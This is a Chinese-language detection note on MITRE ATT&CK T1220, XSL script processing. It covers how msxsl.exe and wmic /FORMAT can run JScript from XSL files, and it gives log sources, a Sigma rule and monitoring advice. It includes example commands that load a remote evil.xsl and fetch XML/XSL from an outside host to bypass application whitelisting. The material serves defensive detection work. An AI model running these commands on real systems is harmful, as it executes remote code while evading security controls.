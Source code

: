 # T1220-win-XSL Script Processing

## 来自ATT&CK的描述

Extensible Stylesheet Language (XSL)是用来描述和渲染XML文件的。为了进行复杂的操作，XSL增加了不同的语言。红队可以使用它来运行二进制代码绕过白名单的检查。和Trusted Developer Utilities相似，msxsl.exe可以在本地或者远程运行JavaScript，虽然msxsl.exe不是默认安装了，但是红队可以打包它并放在客户端。msxsl.exe运行时接收两个参数，XML源文件和XSL stylesheet。既然xsl文件也是一个xml，红队可以使用xsl文件两次，当msxsl.exe运行的时候。红队可以给xml/xsl文件任意的扩展名。

命令行的例子如下:

- msxsl.exe customers[.]xml script[.]xsl
- msxsl.exe script[.]xsl script[.]xsl
- msxsl.exe script[.]jpeg script[.]jpeg

另一种技术叫做Squiblytwo，它使用windows管理工具调用JScript或VBScript在xsl文件中，这个技术也可以执行远程或本地的script，和Regsvr32一样，Squiblydoo也是一个windows信任的工具。

命令行的例子如下:

- Local File: wmic process list /FORMAT:evil[.]xsl
- Remote File: wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”

## 测试案例

无

## 检测日志

Windows安全日志/Sysmon日志

## 测试复现

### 测试1 MSXSL BYPASS USING LOCAL FILES

首先需要下载工具msxsl.exe，目前尚未找到可下载的地址

```yml
C:\Windows\Temp\msxsl.exe msxslxmlfile.xml msxslscript.xsl
```

尚未复现成功

### 测试2

```yml
msxsl.exe http://snappyzz.com/msxslxmlfile.xml http://snappyzz.com/msxslscript.xsl
```

## 日志留痕

可参考Windows 安全日志4688事件说明、Windows Sysmon安全日志1事件说明。

## 检测规则/思路

### sigma规则

```yml
title: windows下使用msxsl.exe加载恶意程序
description: msxsl.exe是微软用于命令行下处理XSL的一个程序，所以通过该程序，我们可以执行JavaScript进而执行系统命令。
status: experimental
author: 12306Bro
logsource:
​    product: windows
​    service: security
detection:
​    selection:
​       EventID: 4688 #Windows 安全日志
        Process_name: 'msxsl.exe' #Application Name
        Commanline: 
           - '*.xsl'
     - '*.xml'
     - 'http://*'
​    condition: selection
level: medium
```

### 建议

使用进程监控来监测msxsl.exe和wmic.exe的执行和参数。将这些工具最近的调用与之前已知的良好参数和加载文件的历史进行比较，以确定异常和潜在的恶意活动（例如：URL命令行参数、创建外部网络连接、加载与脚本相关的DLLs）。脚本调用前后使用的命令参数也可能有助于确定被加载的有效载荷的来源和目的。

在一个不用于这些目的的系统上出现msxsl.exe或其他能够实现代理执行的实用程序，通常用于开发、调试和逆向工程，可能是可疑的。

## 参考推荐

MITRE-ATT&CK-T1220

<https://attack.mitre.org/techniques/T1220>

跟着ATT&CK学安全之defense-evasion

<https://snappyjack.github.io/articles/2020-01/%E8%B7%9F%E7%9D%80ATT&CK%E5%AD%A6%E5%AE%89%E5%85%A8%E4%B9%8Bdefense-evasion>
